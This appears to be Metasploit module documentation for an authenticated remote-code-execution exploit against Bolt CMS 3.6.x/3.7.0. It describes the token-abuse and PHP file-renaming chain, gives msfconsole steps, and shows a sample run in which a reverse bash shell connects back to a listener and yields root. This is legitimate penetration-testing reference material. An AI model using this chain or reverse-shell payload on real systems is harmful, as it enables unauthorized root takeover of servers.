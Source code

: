 ## Vulnerable Application

This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as root.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token.
This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name.
If this succeeds, the target may be vulnerable.
The module then proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.`
These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`.
With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens.
While most (if not all) available tokens can be used to created .php files in the /root directory on the server,
the resulting files cannot always be used to execute commands.
The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens,
it seems the easiest way to identify a valid one is to use each token to create a .php file
and then check the contents of that file.
The module does exactly this, deleting any .php files that can't be used
until it finds a file for which the "displayname" value is an empty string ("").
This value indicates that the profile username matching this token is the `$_GET` variable generated earlier,
and that the file can be used to execute arbitrary commands.
If a valid .php file is created, the module executes the payload as root via an HTTP get request in this format:
`/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a Bolt CMS user. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/unix/webapp/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options

### FILE_TRAVERSAL_PATH

This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server.
It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD

The password for the Bolt CMS account to authenticate with. This option is required.

### TARGETURI

The base path to Bolt CMS. The default value is `/`.

### USERNAME

The username for the Bolt CMS account to authenticate with. This option is required.

## Scenarios

### Bolt CMS 3.7.0 running on CentOS 7

```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[+] Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
